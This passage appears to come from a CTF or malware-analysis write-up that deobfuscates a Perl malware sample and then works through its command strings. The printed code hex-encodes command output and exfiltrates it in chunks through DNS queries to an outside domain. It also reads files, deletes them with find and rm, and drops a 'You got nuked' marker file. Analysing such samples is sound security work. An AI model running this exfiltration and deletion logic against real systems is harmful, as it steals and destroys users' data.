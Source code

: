 Making the code a bit more understandable, we get:
```perl
$c="cmd.nuked.be.";
sub unhexxie {
    my $hex_str = pop;
    my $str = pack("H*",$hex_str);
    return $str;
}
sub hexxie {
    my $str = pop;
    my $hex_str = unpack("H*", $str);
    return $str;
}
sub send_output {
    my $output = pop;
    # Splits a string into chunks of 60 chars
    foreach my $chunk (unpack"(A60)*", $output) {
        `$d+tries=1 $chunk.$u.$c$w\@$v`
    }
}
sub delimiter {
    my $hex_str = hexxie("END" . $u . "END");
    send_output($hex_str);
}
sub prep_and_send {
    my $str = pop;
    my $hex_str = hexxie($str);
    send_output($hex_str);
}
sub execute {
    my $output = pop;
    foreach my $line (split /\n/, $output) {
        prep_and_send($line);
    }
    delimiter();
}
sub something {
    `${d}files.$v$w\@$v`
}
execute(`find / -type f -name "recipy.txt" -exec cat {} +`);
execute(`find / -type f -name "recipy.txt" -exec rm {} +`);
execute(`echo "You got nuked" > ~/nuked.txt`);
```

Seems like the malware will evaluate the commands send from the DNS server.
However, we still need to figure out what those backtick commands are:
```perl
`$d+tries=1 $_.$u.$c$w\@$v`
`${d}files.$v$w\@$v`
```

We can fill in `$c`:
```perl
`$d+tries=1 $_.$u.cmd.nuked.be.$w\@$v`
`${d}files.$v$w\@$v`
```
